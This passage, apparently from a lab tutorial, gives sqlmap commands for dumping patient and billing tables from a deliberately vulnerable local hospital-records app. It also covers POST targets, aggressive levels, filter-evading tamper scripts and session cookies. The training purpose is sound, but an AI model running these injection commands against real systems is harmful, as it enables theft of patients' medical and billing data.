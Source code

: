## 7 — Dump table data (targeted extraction)
Dump entire table (lab only):

```bash
sqlmap -u "http://127.0.0.1:8080/patient_lookup.php?q=*" -D hospital_emr -T patients --dump --batch
```

Dump specific columns only (recommended for focused demo):

```bash
sqlmap -u "http://127.0.0.1:8080/patient_lookup.php?q=*" -D hospital_emr -T patients -C "medical_record_number,first_name,last_name,email" --dump --batch
```

Dump rows with a WHERE clause:

```bash
sqlmap -u "http://127.0.0.1:8080/patient_lookup.php?q=*" -D hospital_emr -T patients --where="email LIKE '%@example.test'" --dump --batch
```

Dump billing table (exfiltration demo):
```bash
sqlmap -u "http://127.0.0.1:8080/patient_lookup.php?q=*" -D hospital_emr -T billing --dump --batch
```

**Notes:**
* --dump extracts and saves data in sqlmap's output folder (check path in sqlmap output).
* Use -C to limit columns and reduce noise.


## 8 — If the site uses POST (form) instead of GET

Simulate POST body with --data:

```bash
sqlmap -u "http://127.0.0.1:8080/patient_lookup.php" --data="q=John" -p q --batch
```
* -p q tells sqlmap to focus on parameter q.
* Use --data for POST targets.

## 9 — Advanced options & practical tips

* Increase depth for more aggressive tests:
```bahs
sqlmap -u "http://127.0.0.1:8080/patient_lookup.php?q=*" --level=5 --risk=3 --batch
```
* Use tamper scripts if basic payloads are filtered (only in lab):
```bash
sqlmap -u "http://127.0.0.1:8080/patient_lookup.php?q=*" --tamper=between,randomcase --batch
```
* Set custom headers / cookies if the app requires authentication:
```bash
sqlmap -u "http://127.0.0.1:8080/patient_lookup.php?q=*" --headers="User-Agent: sqlmap" --cookie="SESSION=abcd" --batch
```
* Threads for speed:
```bash
sqlmap -u "http://127.0.0.1:8080/patient_lookup.php?q=*" --threads=5 --batch
```
* Specify output directory:
```bash
sqlmap -u "http://127.0.0.1:8080/patient_lookup.php?q=*" --output-dir=./sqlmap-output --batch
```
